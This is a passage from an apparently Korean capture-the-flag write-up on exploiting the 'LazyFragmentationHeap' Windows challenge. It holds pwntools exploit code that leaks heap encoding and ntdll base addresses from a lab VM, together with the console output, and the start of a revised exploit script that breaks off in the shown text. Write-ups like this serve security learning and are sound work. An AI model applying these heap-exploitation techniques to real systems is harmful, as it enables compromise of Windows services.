 ```python
read_file(5,8)
ntdll_base = u64(show(5)[:8].ljust(8, p8(0))) - 0x163d70

log.info("&ntdll = 0x%016x" % ntdll_base)

pause()
hi.close()

'''
[+] Opening connection to 192.168.0.18 on port 6677: Done
[*] _HEAP->Encoding = 0x0000b6942c981917
[*] fake XOR'ed _HEAP_ENTRY = 0x1000b6b3e49918df
[*] &_HEAP = 0x0000018809710000
[*] &ntdll = 0x00007ffd09b00000
[*] Paused (press any to continue)
....
0:001> ? ntdll
Evaluate expression: 140724765982720 = 00007ffd`09b00000
'''
```

그리고 주소를 계속 leak해보다가 알게된 건데 정확한 이유는 알 수 없지만 프로세스가 바뀌더라도 **LazyFragmentationHeap.exe**를 포함해 로드된 모듈들의 주소는 변하지 않았습니다.

```
$ python ex.py
[+] Opening connection to 192.168.0.18 on port 6677: Done
[*] _HEAP->Encoding = 0x0000ded8a1942b54
[*] fake XOR'ed _HEAP_ENTRY = 0x1000deff69952a9c
[*] &_HEAP = 0x000001c50e7e0000
[*] &ntdll = 0x00007ffd09b00000 <------------------------------|
[*] Closed connection to 192.168.0.18 port 6677                |
                                                               |
$ python ex.py                                                 |
[+] Opening connection to 192.168.0.18 on port 6677: Done      |
[*] _HEAP->Encoding = 0x000072da0f33e8bf                       |
[*] fake XOR'ed _HEAP_ENTRY = 0x100072fdc732e977               |
[*] &_HEAP = 0x0000019898950000                                |
[*] &ntdll = 0x00007ffd09b00000 <------------------------------|
```

어차피 FILE 구조체를 통해 데이터를 읽어들이는 횟수에 제한을 두고 있어서, FILE 구조체를 이용한 주소 leak은 프로세스 당 한번씩만 할 수 있기 때문에 아래와 같이 코드를 수정했습니다.

```python
from pwn import *

# context.log_level = "debug"

# HOST = "192.168.56.102" # VirtualBox Host-Only Adapter
HOST = "192.168.0.18" # VirtualBox Bridge 
PORT = 6677
SIZE = 0xC8 # yes, I intend korean slang

hi = None
sla = None

def alloc(chunk_id, size):
	sla("Your choice: ", str(1))
 	sla("Size:", str(size))
	sla("ID:", str(chunk_id))

def edit(chunk_id, val, need_newline=True):
	sla("Your choice: ", str(2))
	sla("ID:", str(chunk_id))
```